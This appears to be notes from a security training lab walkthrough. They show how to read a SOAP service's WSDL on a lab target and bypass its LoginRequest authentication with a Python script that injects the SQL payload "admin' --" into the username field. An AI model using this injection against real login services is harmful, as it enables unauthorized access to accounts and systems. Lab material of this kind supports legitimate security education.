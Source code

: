 ![[Pasted image 20231218163536.png]]

Identifying the XML

![[Pasted image 20231218163814.png]]

After spawning the target machine, students need to inspect the WSDL file of the SOAP service that resides in `http://10.129.230.116:3002/wsdl?wsdl`, to find that there is a SOAPAction called `LoginRequest` with two parameters, `username` and `password`:

```
import requests

payload = "admin' --"
data = f'<?xml version="1.0" encoding="UTF-8"?> <soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/" xmlns:tns="http://tempuri.org/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"> <soap:Body> <LoginRequest xmlns="http://tempuri.org/"> <username>{payload}</username> <password>fff</password> </LoginRequest> </soap:Body> </soap:Envelope>'

print(requests.post("http://10.129.230.116:3002/wsdl", data=data, headers={"SOAPAction":'"Login"'}).content)
```

![[Pasted image 20231218164533.png]]